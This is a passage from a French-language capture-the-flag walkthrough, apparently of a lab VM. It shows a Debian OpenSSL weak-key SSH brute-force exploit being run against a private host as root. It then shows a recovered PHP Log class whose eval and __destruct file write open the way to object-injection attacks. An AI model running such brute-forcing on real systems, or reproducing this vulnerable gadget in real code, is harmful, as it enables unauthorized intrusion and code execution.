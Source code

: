 ```shellsession
$ python2 exploit.py rsa/2048 192.168.1.43 root 22 5

-OpenSSL Debian exploit- by ||WarCat team|| warcat.no-ip.org
Tested 20 keys | Remaining 32748 keys | Aprox. Speed 4/sec
Tested 33 keys | Remaining 32735 keys | Aprox. Speed 2/sec
Tested 49 keys | Remaining 32719 keys | Aprox. Speed 3/sec
--- snip ---
Tested 32329 keys | Remaining 439 keys | Aprox. Speed 44/sec
Tested 32549 keys | Remaining 219 keys | Aprox. Speed 44/sec
Tested 32768 keys | Remaining 0 keys | Aprox. Speed 43/sec
```

Terre ! Terre droit devant !
----------------------------

On lance un petit buster d'URLs et le brouillard commence à se dissiper avec un dossier */scriptz/* sorti des eaux.  

On y trouve un fichier *php.js* qui semble être le portage JS de la fonction *serialize()* de PHP... indice !  

Le second fichier se nomme *log.php.BAK* et contient le code d'une classe PHP :  

```php
<?php
class Log
{
    public $filename = '';
    public $data = '';

    public function __construct()
    {
        $this->filename = '';
        $this->data = '';
    }

    public function PrintLog()
    {
        $pre = "[LOG]";
        $now = date('Y-m-d H:i:s');

        $str = '$pre - $now - $this->data';
        eval("\$str = \"$str\";");
        echo $str;
    }

    public function __destruct()
    {
        file_put_contents($this->filename, $this->data, FILE_APPEND);
    }
}
?>
```
